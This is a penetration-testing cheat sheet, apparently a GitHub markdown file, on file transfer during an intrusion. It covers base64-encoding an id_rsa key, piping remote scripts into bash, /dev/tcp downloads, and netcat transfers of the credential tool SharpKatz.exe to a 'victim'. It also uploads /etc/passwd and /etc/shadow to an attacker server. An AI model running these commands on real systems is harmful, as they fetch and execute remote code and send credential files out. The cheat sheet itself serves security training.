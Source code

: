 # Content
- [Download Operations](#download-operations)
  - [Base64 Encoding / Decoding](#1-base64-encoding--decoding)
  - [Web Downloads](#2-web-downloads)
  - [SSH Downloads](#3-ssh-downloads)
  - [nc tools](#4-nc-tools)
- [Upload Operations](#upload-operations)
  - [Web Upload](#web-upload)
  - [Alternative Web File Transfer Method](#alternative-web-file-transfer-method)
  - [SCP Upload](#scp-upload)

# Download Operations

## 1) Base64 Encoding / Decoding
- encode
```bash
$ cat id_rsa |base64 -w 0;echo
```
- paste
```bash
$ echo -n '<base64>' | base64 -d > id_rsa
```

## 2) Web Downloads 

### with Wget and cURL
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Attacks Using Linux
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

**Note:** Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

### Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.


```bash
$ exec 3<>/dev/tcp/10.10.10.32/80

$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

$ cat <&3
```

## 3) SSH Downloads
- start ssh
```
sudo systemctl start ssh
```
- connect to it
```
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

**Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

## 4) nc tools
- **attacker**
```bash
## attacker lestin
sudo nc -l -p 443 -q 0 < SharpKatz.exe
sudo ncat -l -p 443 --send-only < SharpKatz.exe
## victim connect
sudo ncat -l -p 443 --send-only < SharpKatz.exe
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

## OR vicitm lestin
nc -l -p 8000 > SharpKatz.exe
ncat -l -p 8000 --recv-only > SharpKatz.exe
## attacker send
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe

```

# Upload Operations

## Web Upload

- upload server
```
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
- get to it
```
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
- create web server
```
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000
```
- get from it 
```
wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload

```
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

## nc tools
the same as in download in reverse

